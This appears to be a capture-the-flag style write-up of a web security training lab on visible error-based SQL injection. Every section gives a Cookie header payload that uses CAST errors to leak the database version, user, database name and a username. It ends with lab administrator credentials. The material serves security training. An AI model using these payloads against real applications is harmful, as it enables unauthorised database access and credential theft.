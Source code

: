 # Lab: Visible error-based SQL injection

## Preparation:

### Simple:

```
Cookie: TrackingId='+AND+1=CAST(USER+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

### Using search and SELECT:

```
Cookie: TrackingId='+AND+1=CAST((SELECT+USER)+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

## Exploitation:

### Getting a 500 error:

URL: https://0ad000c20488c7b182e5520200fa00a3.web-security-academy.net/

Payload:
```
Cookie: TrackingId=7LEHgmi9PoK9JB9u'; session=SJpuVelaON7LD8BBs2eT6iRIxXnQ3yJb
```

![](./Images/500_error.png)

### Getting the version:

Payload:
```
Cookie: TrackingId='+AND+1=CAST(VERSION()+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

![](./Images/Version.png)

<br>

### Getting the user:

Payload:
```
Cookie: TrackingId='+AND+1=CAST(USER+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

![](./Images/User.png)

<br>

### Getting database:

Payload:
```
Cookie: TrackingId='+AND+1=CAST(current_database()+as+int)--+-; session=zXvEiBja3lmIvATscaMQujjH4iOZOuwP
```

![](./Images/DB.png)

<br>

### Getting Username and Password:

Payload:
```
Cookie: TrackingId='+AND+1=CAST((SELECT+username+from+users+LIMIT+1)+as+int)--+-; session=pSEyPbZgNJ1v2ezGwpLDY9MHvwO111ZL
```

Creds:

```
administrator:dmaza57tueppqdoftbkp
```
